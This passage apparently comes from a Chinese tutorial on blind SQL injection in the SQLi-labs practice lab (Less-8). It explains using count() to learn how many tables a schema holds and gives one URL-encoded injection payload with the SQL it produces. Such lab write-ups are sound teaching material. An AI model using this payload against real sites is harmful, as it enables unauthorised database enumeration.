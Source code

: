 * `count()`

  统计数据表中包含的记录行的总数，或者根据查询结果返回列中包含的数据行。

由于无法看到有多少个表，为了避免无效查询，所以可以先获取表的数量，可以使用count()函数进行获取。

方法同获取数据库名长度，直接进行爆破，例子如下

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20(select%20count(table_name)%20from%20Information_schema.tables%20where%20table_schema%20=%20%27security%27)=4%23
SQL:
SELECT * FROM users WHERE id='1' and (select count(table_name) from Information_schema.tables where table_schema = 'security')=4#' LIMIT 0,1;
;
```

![](盲注/photo/15.jpg)
